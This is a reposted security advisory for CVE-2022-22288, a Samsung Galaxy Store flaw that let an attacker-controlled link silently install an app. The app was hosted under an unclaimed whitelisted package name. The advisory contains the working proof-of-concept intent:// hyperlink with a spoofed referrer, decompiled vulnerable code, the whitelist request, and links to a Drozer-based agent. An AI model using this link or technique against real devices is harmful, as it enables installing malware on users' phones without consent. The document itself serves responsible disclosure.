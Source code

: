 ```yaml
---
layout: page
title: CVE-2022-22288 Details
permalink: /cves/cve-2022-22288
---
```


#### Original post: [https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/](https://labs.f-secure.com/advisories/samsung-galaxy-one-tap-install-malicious-application/)

|    **Product**    | Galaxy Store prior to version 4.5.36.5 |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2022-22288             |
|      **Type**     |      Automatic Application Install     |

## Description

F-Secure looked into exploiting the Samsung Galaxy S21 device for Austin Pwn2Own 2021. The Galaxy App Store application contained an issue with how it handled browsable intents. Additionally, it was possible to upload a malicious application to the Galaxy App Store and have Samsung host the application. If a user was convinced to tap an attacker controlled hyperlink, the uploaded malicious application would have been automatically installed onto the victim's device without consent. 

## The Exploit

The following hyperlink could have been used to abuse a browsable intent in the Samsung Galaxy App Store application. This link would install a malicious application that has hijacked the namespace of a whitelisted application on the Samsung App Store. An attacker can host this link from any web server:

```
<a id="yayidyay" rel="noreferrer" href="intent://apps.samsung.com/appquery/appDetail.as?
appId=live.hatch.russa&directInstall=true&installReferrer=yayreferreryay&directOpen=true&
simpleMode=true#Intent;action=android.intent.action.VIEW;package=com.sec.android.app.samsungapps;
scheme=http;S.android%2eintent%2eextra%2eREFERRER_NAME=http://com.sec.android.app.samsungapps;end">
YAYPOCYAY</a>
```

## Technical Details

The malicious application that would have been installed is Boops Boops, a re-skinned Drozer application. This issue occurs due to a bug in the Samsung Galaxy App Store (`com.sec.android.app.samsungapps`) class `com.sec.android.app.samsungapps.deeplink.DetailPageDeepLink` method `putDetailCommonExtra`:

```
public void putDetailCommonExtra(Context context) {
    ...
    if (isDirectInstall() && appManager.enableDDI(getSender(), getDetailID(), DeeplinkManager.getInstance().getInternalDeeplink())) {
        this.intent.putExtra(DeepLink.EXTRA_DEEPLINK_DIRECT_INSTALL, isDirectInstall());
        this.intent.putExtra("sender", getSender());
    }
```

* `isDirectInstall` is taken from the browsable intent query parameter `directInstall` and returns either True or False
* `getSender` is either the package name or the website URL that sent the browsable intent, which is retrieved from the intent string extra `sender` (this intent extra is added or modified in intents by the Android OS when an intent is sent from one application to another)
* `getDetailID` is taken from the browsable intent query parameter `appId`
* `enableDDI` code is below:

```
public boolean enableDDI(String sender, String appId, boolean isInternalDeeplink) {
    if (isDDITestMode()) {
        return true;
    }
    if ((!isGalaxyStore(sender) || !isInternalDeeplink) && !isWhiteListAppForOneClick(sender, appId)) {
        return false;
    }
    return true;
}
```

* `isGalaxyStore` returns true if the intent sender package name was `com.sec.android.app.samsungapps` or if the website that sent the browsable intent was `http://com.sec.android.app.samsungapps`
* `isWhiteListAppForOneClick` returns true if the target package name is in a Samsung controlled whitelist

The intent sender package name can be set by an attacker via the intent string extra `android.intent.extra.REFERRER_NAME=com.sec.android.app.samsungapps`. Without this intent string extra, `isGalaxyStore` would return false since the intent sender would have been a different value, such as the attacker's website URL.

The Samsung controlled whitelist is obtained by the Galaxy Store application via the following POST request:

```
POST /ods.as?reqId=2355 HTTP/1.1
Accept: image/webp
Content-Type: text/plain; charset=UTF-8
User-Agent: Dalvik/2.1.0 (Linux; U; Android 11; SM-G991B Build/RP1A.200720.012)
Host: us-odc.samsungapps.com
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 952
 
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<SamsungProtocol networkType="0" version2="3" lang="EN" openApiVersion="30" deviceModel="SM-G991B" deviceMakerName="samsung" 
deviceMakerType="0" mcc="310" mnc="00" csc="XME" odcVersion="4.5.30.5" scVersion="1000000" 
storeFilter="themeDeviceModel=SM-G991B_TM||OTFVersion=11010001||gearDeviceModel=SM-G991B_SM-R800||gOSVersion=4.0.0"
supportFeature="ARW||AOD" version="6.8" filter="1" odcType="01" cacheVersion="1" systemId="<redacted>" sessionId="<redacted>" 
logId="<redacted>" deviceFeature="locale=en_US||abi32=armeabi-v7a:armeabi||abi64=arm64-v8a" userMode="0">
<request name="whiteAppInfo" id="2355" numParam="4" transactionId="<redacted>"><param name="accountCountry">
USA</param><param name="guestDownloadInfo">Y</param><param name="accountMcc">310</param><param name="requestTypeCode">0</param>
</request></SamsungProtocol>
```

The whitelist is found in the response parameter popupDownloadAppList:

```
...
<value name="popupDownloadAppList">mobi.abcmouse.samsung||com.audible.application.samsung||com.booking.forsamsung||com.cnn.mobile.android.phone|
|com.golfnow.android.samsung.teetimes||com.scribd.app.samsung||com.shazam.android||com.shutterfly.samsung||com.skimble.workouts||me.swiftgift.swiftgift.samsung|
|com.weather.samsung||com.touchofmodern.samsung||com.tubitv.samsung||com.ua.shop.samsung||com.yelp.android||com.aaptiv.android.samsung|
|com.lifesum.madeforsamsung||com.getliner.Liner||com.vsco.cam.samsung||com.rosettastone.madeforsamsung.courseplayer||com.aita||com.degoo.android.samsung|
|com.adobe.reader||com.samsung.m4sscreen||com.adobe.premiererush.videoeditor.samsung||live.hatch.russa||jp.gocro.smartnews.android|
|com.getsomeheadspace.android||com.viewbug.viewbug||com.postmates.android||com.getaround.android</value>
...
```

It was found that the package name `live.hatch.russa` was on the Samsung white list, but that package did not exist on the Samsung App Store itself. F-Secure deployed their custom re-skinned Drozer application called "Boops Boops" to the Samsung App Store with the package name `live.hatch.russa`:

<div align="center">
    <img src="/assets/my_cves/cve-2022-22288_1.png">
</div>

Source code for the Boops Boops application can be found here: [https://github.com/Yogehi/boops-boops-android-agent](https://github.com/Yogehi/boops-boops-android-agent) or 

Source code for the Boops Boops Docker Container which can be used to interact with Boops Boops can be found here: [https://github.com/Yogehi/boops-boops-docker-container](https://github.com/Yogehi/boops-boops-docker-container)


## Remedial Action

Samsung has released the Galaxy Store version 4.5.36.5 which addresses this issue. Additionally, F-Secure has attempted to re-upload Boops Boops with the package name `live.hatch.russa` several times to the Galaxy Store, and it now gets taken down due to a copyright warning.

<div align="center">
    <img src="/assets/my_cves/cve-2022-22288_2.png">
</div>

Users should still update their Galaxy Store application to the latest version available.

## Credits

This issue was discovered by Ken Gannon.

## Timeline

|    **Date**    | **Summary** |
|   01/11/2021   | Issue disclosed to Samsung Mobile Security |
|   01/11/2021   | Issue assigned to a Samsung Security Analyst |
|   01/12/2021   | Samsung confirms the vulnerability and rates it as a critical risk issue |
|   03/01/2022   | Patch released, Samsung initiates process for bug bounty reward |
|   04/01/2022   | CVE Assigned |
|   04/01/2022   | Advisory Published |